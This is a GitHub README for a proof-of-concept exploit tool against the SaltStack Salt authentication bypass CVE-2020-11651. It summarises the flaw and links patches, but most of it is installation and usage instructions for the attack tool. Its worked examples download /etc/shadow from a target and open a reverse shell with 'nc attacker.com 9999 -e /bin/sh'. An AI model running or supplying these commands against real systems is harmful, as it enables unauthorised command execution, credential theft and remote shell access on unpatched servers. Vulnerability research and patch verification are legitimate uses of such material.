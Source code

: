 # CVE-2020-11651

An issue was discovered in SaltStack Salt before 2019.2.4 and 3000 before 3000.2. The salt-master process ClearFuncs class does not properly validate method calls. This allows a remote user to access some methods without authentication. These methods can be used to retrieve user tokens from the salt master and/or run arbitrary commands on salt minions.

[Details](https://www.suse.com/security/cve/CVE-2020-11651/)

[Patches](https://github.com/rossengeorgiev/salt-security-backports) for unspported salt versions

## Install

    git clone https://github.com/0xc0d/CVE-2020-11651.git ~/CVE-2020-11651
    chmod +x ~/CVE-2020-11651/PoC.py

## Usage

    $ ~/CVE-2020-11651/PoC.py -h
    usage: PoC.py [-h] --host HOST [--port PORT] [--execute COMMAND] [--upload src dest] [--download src dest] [--minions] [--quiet] [--fetch-key-only]

    CVE-2020-11651 PoC

    optional arguments:
      -h, --help            show this help message and exit
      --host HOST, -t HOST
      --port PORT, -p PORT
      --execute COMMAND, -e COMMAND
                            Command to execute. Defaul: /bin/sh (use netcat for reverse shell)
      --upload src dest, -u src dest
                            Upload a file
      --download src dest, -d src dest
                            Download a file
      --minions             Send command to all minions on master
      --quiet, -q           Enable quiet/silent mode
      --fetch-key-only      Only fetch the key

## Example

#### Download shadow file
    ./PoC.py --host target.com --download /etc/shadow ./shadow
    
#### Run a reverse shell
    nc -nvl attacker.com 9999
    ./PoC.py --host target.com --execute "nc attacker.com 9999 -e \"/bin/sh\""
   
#### Fetch the key
    ./PoC.py --host target.com --fetch-key-only
